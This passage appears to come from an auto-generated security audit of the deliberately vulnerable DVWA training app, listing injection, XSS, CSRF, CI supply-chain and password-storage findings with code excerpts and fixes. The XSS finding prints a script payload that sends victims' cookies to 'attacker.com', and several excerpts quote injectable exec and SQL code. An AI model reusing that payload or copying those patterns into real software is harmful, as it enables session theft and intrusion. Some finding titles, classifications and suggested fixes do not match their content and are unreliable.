**Instances (9):** `vulnerabilities/api/src/HealthController.php:88`, `vulnerabilities/exec/source/high.php:26`, `vulnerabilities/exec/source/high.php:30`, `vulnerabilities/exec/source/impossible.php:22`, `vulnerabilities/exec/source/impossible.php:26`, `vulnerabilities/exec/source/low.php:10`, `vulnerabilities/exec/source/low.php:14`, `vulnerabilities/exec/source/medium.php:19` … (+1 more)

**Issue:** A shell command built from request data yields arbitrary command execution.

**Evidence:** ✓ verified

```
// vulnerabilities/api/src/HealthController.php:88
			$target = $input['target'];

			exec ("ping -c 4 " . $target, $output, $ret_var);

			if ($ret_var == 0) {
```

**Fix:** Replace shell invocations with an argv-list API and validate every input → ◕ [M-011](#m-011) — Avoid the shell; if unavoidable, escapeshellarg every dynamic argument (`HealthController.php:88`)

**Classification:** Injection · [CWE-78](https://cwe.mitre.org/data/definitions/78.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · SQL Injection

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** Multiple locations (2)

**Instances (2):** `dvwa/includes/DBMS/MySQL.php:37`, `dvwa/includes/dvwaPage.inc.php:571`

**Issue:** Interpolated/concatenated request data in SQL lets an attacker alter the query.

**Evidence:** ◌ ambiguous

```
// dvwa/includes/DBMS/MySQL.php:37

// Create table 'users'
if( !@((bool)mysqli_query($GLOBALS["___mysqli_ston"], "USE " . $_DVWA[ 'db_database' ])) ) {
	dvwaMessagePush( 'Could not connect to database.' );
	dvwaPageReload();
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ◕ [M-012](#m-012) — Use parameterized database queries (`MySQL.php:37`)

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · Unpinned GitHub Actions allow supply-chain code injection (.github/workflows)

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - GitHub Actions CI/CD Pipeline  ·  **Location:** `.github/workflows/docker-image.yml:13`

**Weakness:** [W-002](#w-002) - Build pipeline trusts mutable third-party references

**Trust boundary gap:** [tb-2](#tb-2) 🌐 External - external → ci-cd-pipeline · Validation: Mutable version tags allow supply-chain substitution at build-trigger boundary

**Issue:** All five workflow files reference GitHub Actions via mutable version tags (e.g., `docker/setup-qemu-action@v3`, `ShiftLeftSecurity/scan-action@v1.3.0`, `actions/checkout@v6.0.2`) rather than immutable `SHA-256` digest pins. An attacker who compromises the upstream action repository - or pushes a malicious update to the same tag - causes the next workflow run to silently execute attacker-controlled code.

The compromised action runs with access to all runner environment variables, the repository's secret store, and the inherited write-all `GITHUB_TOKEN`. Arbitrary code execution within the CI runner with access to all repository secrets and write-all `GITHUB_TOKEN`, enabling repository takeover or malicious artifact injection.

**Evidence:** ✓ verified - `docker-image.yml:13` uses `actions/checkout@v6.0.2`; `docker-image.yml:16` uses `docker/setup-qemu-action@v3`; `shiftleft-analysis.yml:24` uses `ShiftLeftSecurity/scan-action@v1.3.0` - all mutable tag references.

```yaml
// .github/workflows/docker-image.yml:13
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v6.0.2

    - name: Set up QEMU
```

**Fix:** ◕ [M-013](#m-013) — Set least-privilege CI workflow permissions (`docker-image.yml:13`)

**Classification:** Supply-Chain Integrity · [CWE-1357](https://cwe.mitre.org/data/definitions/1357.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · Overprivileged 'dvwa' DB User Has

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - MariaDB / MySQL Database  ·  **Location:** `database/bac_setup.sql:27`

**Trust boundary gap:** [tb-3](#tb-3) - web-application → database · Query construction: The trust boundary assumption is parameterized DML only; DDL grants allow the application credential to issue schema-destructive commands that violate the expected privilege floor at this crossing.

**Issue:** The 'dvwa' database user - the same credential the web application uses for every runtime query - is granted DDL-level privileges including CREATE TABLE, DROP TABLE, and ALTER TABLE. This is confirmed by `bac_setup.sql` line 27, which executes `ALTER TABLE users ADD COLUMN IF NOT EXISTS role VARCHAR(20)` under this user at module setup time.

A successful SQL injection or application compromise that runs under the 'dvwa' connection can therefore issue schema-level destructive queries: dropping tables, altering column types, inserting backdoor accounts via DDL triggers, or corrupting indexes. A compromised application connection can destroy or alter the database schema, causing denial of service or enabling persistent privilege escalation.

**Evidence:** ✓ verified - `bac_setup.sql:27` issues ALTER TABLE under the 'dvwa' user, confirming DDL privileges are granted and exercised at the application layer.

```sql
// database/bac_setup.sql:27

-- Add role column to users table if it doesn't exist
ALTER TABLE users ADD COLUMN IF NOT EXISTS role VARCHAR(20) DEFAULT 'user';

-- Update admin user to have admin role
```

**Fix:** ◕ [M-014](#m-014) — Drop unnecessary privileges in build and runtime (`bac_setup.sql:27`)

**Classification:** Broken Access Control · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · Missing Authentication on User CRUD Endpoints (UserController.php)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - DVWA REST API (Slim + Swagger)  ·  **Location:** `vulnerabilities/api/src/UserController.php:265`

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → web-application · Authentication: UserController has no `checkToken()` call; authentication leg absent on all user CRUD.

**Issue:** `UserController.processRequest()` dispatches GET, POST, PUT, and DELETE methods to user data operations (getUser, getAllUsers, addUser, updateUser, deleteUser) with no bearer-token check. In contrast, OrderController calls `checkToken()` before every comparable operation.

Any unauthenticated HTTP client can enumerate all users (GET `/api/v2/user/`), create new users (POST `/api/v2/user/`), overwrite existing user names (PUT `/api/v2/user/`{id}), or delete any user (DELETE `/api/v2/user/`{id}) without credentials. An unauthenticated attacker can create, modify, or delete any user record; all user data is readable without authentication.

**Evidence:** ✓ verified - `UserController.php:265` `processRequest()` contains no call to `checkToken()` or Login::`check_access_token()`, unlike OrderController which gates every operation.

```
// vulnerabilities/api/src/UserController.php:265
	}

	public function processRequest() {
		switch ($this->requestMethod) {
			case 'GET':
```

**Fix:** ◕ [M-015](#m-015) — Enforce server-side authorization on every endpoint (`UserController.php:265`)

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · Cross-Site Scripting (XSS)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** Multiple locations (2)

**Instances (2):** `vulnerabilities/xss_s/source/low.php:16`, `vulnerabilities/xss_r/source/low.php:8`

**Issue:** The stored XSS module inserts user-supplied `txtName` and `mtxMessage` POST parameters into the `guestbook` table without HTML escaping (`xss_s/source/low.php:16`). When `dvwaGuestbook()` reads and outputs those rows at `dvwaPage.inc.php:618-626`, it renders the stored values directly into the page HTML at non-impossible security levels.

An attacker submits `<script>document.location='http://attacker.com/steal?c='+document.cookie</script>` as the message. Persistent XSS executes in every victim's browser session; session hijacking and credential theft at scale.

**Evidence:** ✓ verified - `xss_s/source/low.php:16` stores unsanitized user input in `guestbook`; `dvwaPage.inc.php:618-626` renders it unescaped for non-impossible levels.

```
// vulnerabilities/xss_s/source/low.php:16

	// Update database
	$query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◕ [M-016](#m-016) — Encode output instead of bypassing the framework sanitizer (`low.php:16`)

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · CSRF on Password Change via GET (vulnerabilities/csrf/source/low.php:3)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/csrf/source/low.php:3`

**Issue:** The CSRF training module changes the authenticated user's pass**** (8 chars) when the `Change` parameter is present in a GET request (`csrf/source/low.php:3`). No CSRF token is requ**** (8 chars); no `Referer` header is checked; the session cookie is sent automatically by the browser.

An attacker hosts an image tag `` on any web page. Authenticated user's pass**** (8 chars) is changed to an attacker-chosen value via a cross-site image request, enabling account takeover.

**Evidence:** ✓ verified - `csrf/source/low.php:3` processes `$_GET['Change']` with no CSRF token check; the pass**** (8 chars) update runs on a GET request with session cookie only.

**Fix:** Enforce a same-origin or signed CSRF token on every state-changing endpoint → ◕ [M-017](#m-017) — Add anti-CSRF protection to state-changing requests (`low.php:3`)

**Classification:** Cross-Site Request Forgery (CSRF) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · Client-Controlled Security Level Bypasses All Module Protections

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `dvwa/includes/dvwaPage.inc.php:204`

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → web-application · Authorization: The authorization leg of tb-1 is violated: the active protection level - which controls all authorization checks in every module - is read from an unsigned client cookie rather than from a server-authoritative source.

**Issue:** All DVWA vulnerability modules select their protection tier based on the return value of `dvwaSecurityLevelGet()`, which reads `$_COOKIE['security']` directly (`dvwa/includes/dvwaPage.inc.php:204`). The cookie carries no HMAC or server-side signature.

An authenticated attacker who sets their own `security=low` cookie immediately downgrades every module from whatever level the administrator configured to the completely unprotected low-level variant, re-exposing all training vulnerabilities as real attack vectors. The operator's intended protection level is ignored; all 15+ vulnerability modules revert to completely unprotected behavior for that user.

**Evidence:** ✓ verified - `dvwaPage.inc.php:204` returns `$_COOKIE['security']` directly; the cookie value is not signed, validated against a server-side session, or restricted to the operator-configured level.

```
// dvwa/includes/dvwaPage.inc.php:204

	// If there is a security cookie, that takes priority.
	if (isset($_COOKIE['security'])) {
		return $_COOKIE[ 'security' ];
	}
```

**Fix:** ◕ [M-018](#m-018) — Store security level server-side in the PHP session, not in a client-controlled… (`dvwaPage.inc.php:204`)

**Classification:** Broken Access Control · [CWE-565](https://cwe.mitre.org/data/definitions/565.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · Missing Security Event Audit Logging

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - DVWA REST API (Slim + Swagger)  ·  **Location:** `vulnerabilities/api/src/LoginController.php:75`

**Issue:** No security-relevant event is logged anywhere in the API source tree (grep of src/ for `error_log`, syslog, audit, logger, monolog returns zero hits). Authentication successes and failures at `/api/v2/login/login`, token refresh events, user creation/modification/deletion, and the command-injection-vulnerable `/health/connectivity` invocations all leave no trace.

An attacker who successfully forges a token, creates an admin user, or executes OS commands leaves no forensic footprint, and the application operator has no way to reconstruct which actions were taken during an incident. Security incidents cannot be detected, attributed, or reconstructed; an attacker who abuses the API leaves no server-side evidence.

**Evidence:** ✓ verified - The entire vulnerabilities/api/src/ directory contains zero calls to any PHP logging function or third-party logger.

```
// vulnerabilities/api/src/LoginController.php:75

	# This is an attempt at an OAUTH2 client pass**** (8 chars) authentication flow
	private function login() {
		# Default fail, just in case.
		$response['status_code_header'] = 'HTTP/1.1 401 Unauthorized';
```

**Fix:** ◕ [M-019](#m-019) — Add security audit logging (`LoginController.php:75`)

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2025](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · GitHub Actions workflow-level permissions block

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - GitHub Actions CI/CD Pipeline  ·  **Location:** Multiple locations (3)

**Instances (3):** `.github/workflows/docker-image.yml:1`, `.github/workflows/codeql-analysis.yml:1`, `.github/workflows/pytest.yml:1`

**Issue:** GitHub Actions workflow-level permissions block: Without an explicit permissions block, the workflow inherits the repository default (commonly write-all) for `GITHUB_TOKEN` - any compromised step can push code, create releases, or approve PRs.

**Evidence:** ✓ verified

```yaml
// .github/workflows/docker-image.yml:1
name: Docker Image CI

on:
```

**Fix:** ◕ [M-020](#m-020) — Apply least-privilege permissions (`docker-image.yml:1`)

**Classification:** Error Information Disclosure · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Third-party GitHub Actions pinned to commit SHA

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - GitHub Actions CI/CD Pipeline  ·  **Location:** Multiple locations (2)

**Weakness:** [W-002](#w-002) - Build pipeline trusts mutable third-party references

**Instances (2):** `.github/workflows/docker-image.yml:16`, `.github/workflows/codeql-analysis.yml:45`

**Issue:** Third-party GitHub Actions pinned to commit SHA: Tag-based action references (@v3, @main) are mutable - a compromised publisher can retroactively inject malicious code into an already-used tag.

**Evidence:** ✓ verified

```yaml
// .github/workflows/docker-image.yml:16

    - name: Set up QEMU
      uses: docker/setup-qemu-action@v3

    - name: Set up Docker Buildx
```

**Fix:** ◕ [M-021](#m-021) — Pin third-party dependencies to immutable versions (`docker-image.yml:16`)

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · Dockerfile base image must be digest-pinned

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - GitHub Actions CI/CD Pipeline  ·  **Location:** `Dockerfile:1`

**Issue:** Dockerfile base image must be digest-pinned: Tag-only base images (FROM node:24) can be silently substituted by a malicious publisher. Digest-pinning (@sha256:…) ensures the exact image bytes are used on every build.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:1
FROM docker.io/library/php:8-apache

LABEL org.opencontainers.image.source=https://github.com/digininja/DVWA
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ◕ [M-022](#m-022) — Pin the container base image to an immutable digest (`Dockerfile:1`)

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/)

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · Package-lock.json present and committed

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - GitHub Actions CI/CD Pipeline  ·  **Location:** `N/A`

**Issue:** `package-lock.json` present and committed: Without a lockfile, `npm install` installs different transitive versions on each run - supply-chain attacks become undetectable.

**Evidence:** ✓ verified

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ◕ [M-023](#m-023) — Pin the container base image to an immutable digest (`A:0`)

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/)

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · Cleartext Storage of Sensitive Data

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - MariaDB / MySQL Database  ·  **Location:** `database/create_sqlite_db.sql:22`

**Issue:** When DVWA is configured with `SQLI_DB=sqlite`, the SQLite database is seeded from `create_sqlite_db.sql`. Lines 22-25 execute INSERT statements where the pass**** (8 chars) values - 'pass**** (8 chars)', 'abc123', 'charley', 'letmein', 'pass**** (8 chars)' - are stored as unquoted string literals with no hashing function applied whatsoever.

The PostgreSQL seed (`create_postgresql_db.sql`) wraps values in `MD5()`, even though `MD5` is weak; the SQLite seed omits even that. Users of the SQLite backend have their pass**** (8 chars)s stored and recoverable without any cryptographic barrier; a file-level read gives immediate plaintext credential access.

**Evidence:** ✓ verified - `create_sqlite_db.sql:22-25` inserts rows into the users table with pass**** (8 chars) values supplied as bare string literals - no hash function is invoked, confirming cleartext storage.

```sql
// database/create_sqlite_db.sql:22

insert into users values ('1','admin','admin','admin',('pass**** (8 chars)'),'admin.jpg', DATE(), '0');
insert into users values ('2','Gordon','Brown','gordonb',('abc123'),'gordonb.jpg', DATE(), '0');
insert into users values ('3','Hack','Me','1337',('charley'),'1337.jpg', DATE(), '0');
insert into users values ('4','Pablo','Picasso','pablo',('letmein'),'pablo.jpg', DATE(), '0');
```

**Fix:** ◕ [M-024](#m-024) — Stop storing sensitive data in cleartext (`create_sqlite_db.sql:22`)

**Classification:** Cryptographic Failures · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · Password Hash with Insufficient Effort

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - MariaDB / MySQL Database  ·  **Location:** `database/create_postgresql_db.sql:2`

**Weakness:** [W-004](#w-004) - Security-sensitive data uses weak cryptographic primitives

**Issue:** All user accounts seeded into the database use `MD5` as the pass**** (8 chars) hashing algorithm with no salt and no cost factor, as confirmed by the INSERT statements in `create_postgresql_db.sql` line 2 (e.g., `MD5('pass**** (8 chars)')`, `MD5('abc123')`). `MD5` is a fast, collision-broken message digest: an attacker who reads the users table - via SQL injection, a database dump, or direct access - can recover all five seeded pass**** (8 chars)s in milliseconds using precomputed rainbow tables (e.g., CrackStation covers all five: 'pass**** (8 chars)', 'abc123', 'charley', 'letmein').

The absence of salt means one rainbow table cracks all five entries simultaneously. All seeded user account pass**** (8 chars)s are recoverable offline without any brute-force due to `MD5` rainbow tables, allowing immediate account takeover across every DVWA deployment.

**Evidence:** ✓ verified - `create_postgresql_db.sql:2` uses `MD5()` for every seeded user pass**** (8 chars); `create_sqlite_db.sql:22-25` stores identical account pass**** (8 chars)s with no hashing function at all.

**Fix:** Replace the broken hash with a salted pass**** (8 chars)-hashing function (bcrypt/Argon2id) → ◕ [M-025](#m-025) — Hash pass**** (8 chars)s with a strong, salted algorithm (`create_postgresql_db.sql:2`)

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · Password Hash Exposure via v1 User API (vulnerabilities/api/src/User.php:44)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - DVWA REST API (Slim + Swagger)  ·  **Location:** `vulnerabilities/api/src/User.php:44`

**Issue:** User::`toArray()` for API version 1 (`User.php:38-46`) includes the pass**** (8 chars) field in its JSON output: the `SHA-256` hash of each user's pass**** (8 chars) without a salt. UserController has no authentication check (see 🔴 [F-016](#f-016) — Missing Authentication on User CRUD Endpoints (`UserController.php`)), so any unauthenticated caller can issue GET /api/v1/user/ or GET /api/v1/user/{id} and receive all three user records including their pass**** (8 chars) hashes.

The `SHA-256` hashes are deterministic and unsalted, making them trivially crackable via rainbow tables or dictionary attacks; for example the default pass**** (8 chars) for API-created users is literally hash("sha256", "pass**** (8 chars)"). An unauthenticated attacker retrieves `SHA-256` pass**** (8 chars) hashes for all users and cracks them offline using rainbow tables.

**Evidence:** ✓ verified - `User.php:44` includes `"pass**** (8 chars)" => $this->pass**** (8 chars)` in the v1 `toArray()` return; the hash is `SHA-256` without salt (`UserController.php:167`).

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ◕ [M-026](#m-026) — Stop exposing internal information to clients (`User.php:44`)

**Classification:** Error Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Database Error Disclosure in Authentication Path (login.php:40)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `login.php:40`

**Issue:** When the login query fails at `login.php:40`, the application calls `die('<pre>' . mysqli_error($GLOBALS['___mysqli_ston']) . '</pre>')`. Database schema, column names, and DBMS version are disclosed to unauthenticated attackers, accelerating SQL injection exploitation.

**Evidence:** ✓ verified - `login.php:40` passes `mysqli_error()` directly to `die()` as HTML output; any SQL error leaks DB internals to the browser.

```
// login.php:40

	$query  = "SELECT * FROM `users` WHERE user='$user' AND pass**** (8 chars)='$pass';";
	$result = @mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '.<br />Try <a href="setup.php">installing again</a>.</pre>' );
	if( $result && mysqli_num_rows( $result ) == 1 ) {    // Login Successful...
		dvwaMessagePush( "You have logged in as '{$user}'" );
```

**Fix:** Replace developer error pages with a generic message in production responses → ◕ [M-027](#m-027) — Return generic error messages to clients (`login.php:40`)

**Classification:** Error Information Disclosure · [CWE-209](https://cwe.mitre.org/data/definitions/209.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · Session Cookie Missing HttpOnly and Secure Flags at Non-Impossible Levels

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `dvwa/includes/dvwaPage.inc.php:62`

**Issue:** In `dvwa_start_session()` at `dvwaPage.inc.php:62`, `$secure` is hardcoded to `false` for all security levels. At non-impossible levels (lines 55-57), `$httponly` is also `false` and `$samesite` is an empty string.

This means the PHPSESSID session cookie is readable by JavaScript running on the same origin (enabling XSS-based session theft), transmitted over plain HTTP (enabling network interception), and offers no SameSite protection against CSRF. XSS payloads can steal the PHPSESSID cookie; HTTP interception captures the session token in transit; no SameSite barrier exists for CSRF.

**Evidence:** ✓ verified - `dvwaPage.inc.php:62` sets `$secure = false` unconditionally; lines 54-57 set `$httponly = false` and `$samesite = ''` for non-impossible levels.

```
// dvwa/includes/dvwaPage.inc.php:62
	$secure = false;
	$domain = parse_url($_SERVER['HTTP_HOST'], PHP_URL_HOST);

	/*
	 * Need to do this as you can't update the settings of a session
```

**Fix:** Set `Secure` on every session cookie and enforce HTTPS-only delivery → ◕ [M-028](#m-028) — Set HttpOnly, Secure, and SameSite=Strict on the session cookie at all security… (`dvwaPage.inc.php:62`)

**Classification:** Insecure Client-Side Storage · [CWE-614](https://cwe.mitre.org/data/definitions/614.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · Missing HTTP Security Headers Across All Responses

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `dvwa/includes/dvwaPage.inc.php:385`

**Issue:** `dvwaHtmlEcho()` in `dvwaPage.inc.php:384-387` sets only `Cache-Control`, `Content-Type`, and `Expires` headers. No `Content-Security-Policy`, `X-Frame-Options`, `X-Content-Type-Options`, `Strict-Transport-Security`, or `Referrer-Policy` are emitted for any page.

The absence of CSP means XSS payloads execute without restriction; missing `X-Frame-Options` allows DVWA pages to be embedded in attacker-controlled iframes for clickjacking; missing `X-Content-Type-Options` allows MIME-type sniffing attacks against uploaded files. XSS is more easily exploitable without CSP; clickjacking is unrestricted; MIME sniffing may allow script execution from uploaded non-PHP files.

**Evidence:** ✓ verified - `dvwaPage.inc.php:384-387` sets three non-security headers; grep for `Content-Security-Policy`, `X-Frame-Options`, `X-Content-Type-Options`, `Strict-Transport-Security` returns zero hits across `login.php` and `dvwaPage.inc.php`.

**Fix:** Add the missing protection mechanism for this surface (CSP / CSRF token / headers) → ◕ [M-029](#m-029) — Add Content-Security-Policy, X-Frame-Options, X-Content-Type-Options, and HSTS… (`dvwaPage.inc.php:385`)

**Classification:** Denial of Service · [CWE-693](https://cwe.mitre.org/data/definitions/693.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-031"></a><a id="f-031"></a>
#### F-031 · Hardcoded Default Database Password in Repository

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - MariaDB / MySQL Database  ·  **Location:** `config/config.inc.php.dist:21`

**Weakness:** [W-003](#w-003) - Secrets are committed to source instead of a managed store

**Issue:** The distributed configuration template `config/config.inc.php.dist:21` and the Docker Compose file `compose.yml:34` both embed the database pass**** (8 chars) `p@ss**** (8 chars)` as the default fallback or static environment value. These files are committed to the public GitHub repository (`digininja/DVWA`).

Any attacker who clones the repository or simply views it on GitHub obtains the default database pass**** (8 chars). An attacker with network access to the database port (or through the application's SQLi) authenticates with a known credential, gaining full DBA-level access to the `dvwa` database.

**Evidence:** ✓ verified - `config/config.inc.php.dist:21` uses `getenv('DB_PASSWORD') ?: 'p@ss**** (8 chars)'`; `compose.yml:34` sets `MYSQL_PASSWORD=p@ss**** (8 chars)` in plain text.

```
// config/config.inc.php.dist:21
$_DVWA[ 'db_database' ] = getenv('DB_DATABASE') ?: 'dvwa';
$_DVWA[ 'db_user' ]     = getenv('DB_USER') ?: 'dvwa';
$_DVWA[ 'db_pass**** (8 chars)' ] = getenv('DB_PASSWORD') ?: 'p@ss**** (8 chars)';
$_DVWA[ 'db_port']      = getenv('DB_PORT') ?: '3306';

```

**Fix:** Move the credential out of source control into a secret store and rotate it → ◕ [M-030](#m-030) — Move secrets to a managed secret store (`config.inc.php.dist:21`)

**Classification:** Cryptographic Failures · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-032"></a><a id="f-032"></a>
#### F-032 · Missing Rate Limiting on Authentication Endpoints

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - DVWA REST API (Slim + Swagger)  ·  **Location:** `vulnerabilities/api/public/index.php:39`

**Issue:** The `/api/v2/login/login` and `/api/v2/login/refresh` endpoints accept unlimited POST requests without any rate limiting, account lockout, or progressive delay. An attacker can issue thousands of login attempts per second against the single known username "mrbennett" to brute-force its pass**** (8 chars), or can flood the connectivity health endpoint which blocks for up to four seconds per request (exec ping -c 4) to exhaust available PHP-FPM worker threads and deny service to legitimate users.

No rate-limiting middleware, no shared counter, and no upstream control is present in the Slim application or its bootstrap. An attacker can brute-force the login endpoint without throttling, or exhaust server worker threads through the blocking health/connectivity endpoint.

**Evidence:** ✓ verified - `vulnerabilities/api/public/index.php` contains no rate-limit middleware registration; the entire src/ directory has zero references to rateLimit, throttle, or RateLimiter.

```
// vulnerabilities/api/public/index.php:39
}

$requestMethod = $_SERVER["REQUEST_METHOD"];

$version = $local_uri[0];
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ◕ [M-031](#m-031) — Rate-limit and lock out repeated authentication attempts (`index.php:39`)

**Classification:** Broken Authentication · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · No Rate Limiting or Account Lockout on Login Endpoint

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `login.php:10`

**Issue:** The `login.php` POST handler processes authentication requests without any rate limiting, attempt counting, or account lockout. An attacker can run an automated credential-stuffing or pass**** (8 chars)-brute-force tool against the login endpoint at whatever speed the server can respond.

Combined with `MD5` pass**** (8 chars) hashing (no work factor), pre-computed rainbow tables, and SQL injection (🔴 [F-003](#f-003) — SQL Injection (`vulnerabilities/sqli/source/low.php:10`)), the attacker can compromise accounts in hours at low security level. An attacker can enumerate valid usernames and crack weak pass**** (8 chars)s in minutes; with credential stuffing the entire user table is reachable.

**Evidence:** ✓ verified - Grep of `login.php` and `dvwaPage.inc.php` for `rateLimit`, `throttle`, `rate_limit`, `sleep`, `lockout`, and `attempts` returns zero hits.

```
// login.php:10
dvwaDatabaseConnect();

if( isset( $_POST[ 'Login' ] ) ) {
	// Anti-CSRF
	if (array_key_exists ("session_token", $_SESSION)) {
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ◕ [M-032](#m-032) — Rate-limit and lock out repeated authentication attempts (`login.php:10`)

**Classification:** Broken Authentication · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · Write-all inherited all workflows no

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-04](#c-04) - GitHub Actions CI/CD Pipeline  ·  **Location:** `.github/workflows/shiftleft-analysis.yml:27`

**Trust boundary gap:** [tb-2](#tb-2) 🌐 External - external → ci-cd-pipeline · Authorization: No permissions block; jobs inherit write-all `GITHUB_TOKEN` scope

